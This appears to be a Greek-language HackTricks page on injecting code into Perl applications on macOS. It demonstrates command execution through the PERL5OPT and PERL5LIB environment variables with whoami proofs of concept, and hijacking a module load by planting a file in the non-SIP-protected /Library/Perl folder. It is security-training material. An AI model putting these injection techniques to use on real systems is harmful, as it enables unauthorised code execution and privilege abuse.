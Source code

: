 # macOS Εισαγωγή σε Εφαρμογές Perl

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ καταθέτοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

## Μέσω των μεταβλητών περιβάλλοντος `PERL5OPT` & `PERL5LIB`

Χρησιμοποιώντας τη μεταβλητή περιβάλλοντος PERL5OPT είναι δυνατή η εκτέλεση αυθαίρετων εντολών από το perl.\
Για παράδειγμα, δημιουργήστε αυτό το σενάριο:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

Τώρα **εξαγάγετε τη μεταβλητή περιβάλλοντος** και εκτελέστε το **σενάριο perl**:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Μια άλλη επιλογή είναι να δημιουργήσετε ένα Perl module (π.χ. `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

Και στη συνέχεια χρησιμοποιήστε τις μεταβλητές περιβάλλοντος:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## Μέσω εξαρτήσεων

Είναι δυνατόν να αναφέρουμε τη σειρά του φακέλου εξαρτήσεων του Perl που εκτελείται:
```bash
perl -e 'print join("\n", @INC)'
```
Που θα επιστρέψει κάτι σαν:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Μερικοί από τους φακέλους που επιστρέφονται δεν υπάρχουν καν, ωστόσο, το **`/Library/Perl/5.30`** υπάρχει, δεν είναι προστατευμένο από το **SIP** και βρίσκεται πριν από τους φακέλους που προστατεύονται από το SIP. Συνεπώς, κάποιος θα μπορούσε να εκμεταλλευτεί αυτόν τον φάκελο για να προσθέσει εξαρτήσεις σε scripts εκεί, έτσι ώστε ένα Perl script υψηλής προνομιακής πρόσβασης να τις φορτώσει.

{% hint style="warning" %}
Ωστόσο, σημειώστε ότι **χρειάζεστε δικαιώματα ρίζας για να γράψετε σε αυτόν τον φάκελο** και σήμερα θα λάβετε αυτό το **TCC prompt**:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

Για παράδειγμα, αν ένα script εισάγει το **`use File::Basename;`** θα ήταν δυνατόν να δημιουργηθεί το `/Library/Perl/5.30/File/Basename.pm` για να εκτελέσει αυθαίρετο κώδικα.

## Αναφορές

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)
